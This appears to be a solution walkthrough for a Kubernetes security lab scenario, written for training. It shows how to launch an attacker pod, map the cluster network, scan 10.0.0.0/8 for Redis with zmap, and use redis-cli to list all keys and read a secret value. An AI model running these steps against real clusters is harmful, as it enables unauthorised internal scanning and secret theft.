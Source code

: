 ## 🎉 Solution & Walkthrough

### 🎲 Method 1

* Let's run the `hacker-container` in the default namespace by using the following command to get started

```bash
docker pull madhuakula/hacker-container
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
```

:::tip

If you don't see the terminal TTY, just press Enter key on your keyboard.

:::

* First, we need to understand the cluster IP range information so that we can use the port scanners to scan the entire cluster range as we don't know which IP address these what services are running

* Some of the simple commands to understand and get more information about the network are as below

```bash
ip route
```

```bash
ifconfig
```

```bash
printenv
```

![Scenario 11 recon](./sc-11-2.png)

* Based on the analysis/understanding of the system. We can run the internal scan for the entire cluster range using `zamp` on port 6379 (the default port of Redis - assuming the cache service is Redis, but there is no limit for the testing here, in real-world we see a lot of internal services like ElasticSeach, Mongo, MySQL, etc.)

```bash
zmap -p 6379 10.0.0.0/8 -o results.csv
```

:::note

To run `zmap` on 10.0.0.0/8 you may need adjust the blacklist (/etc/zmap/blacklist.conf) configuration

:::


![Scenario 11 zmap](./sc-11-3.png)

* Let's look at the results returned from the scan so that we can see if we can access them from the current pod and current namespace

![Scenario 11 output ips](./sc-11-4.png)

:::tip

There is also another way to access the services/pods in the Kubernetes. For example using the [DNS](https://kubernetes.io/docs/concepts/services-networking/service/#dns) `cache-store-service.secure-middleware` (servicename.namespace).

:::

* As we have identified the IP address of the service, now we can use the default `redis` using client `reds-cli` to talk to the service and explore

```bash
redis-cli -h 10.12.0.2
```

* To get all the available keys

```bash
KEYS *
```

* To get the specific key information using `GET`

```bash
GET SECRETSTUFF
```

:::tip

There are many other services and resources exposed within the cluster like ElasticSearch, Mongo, etc. So if your recon skill is good then you got a gold mine here.

:::
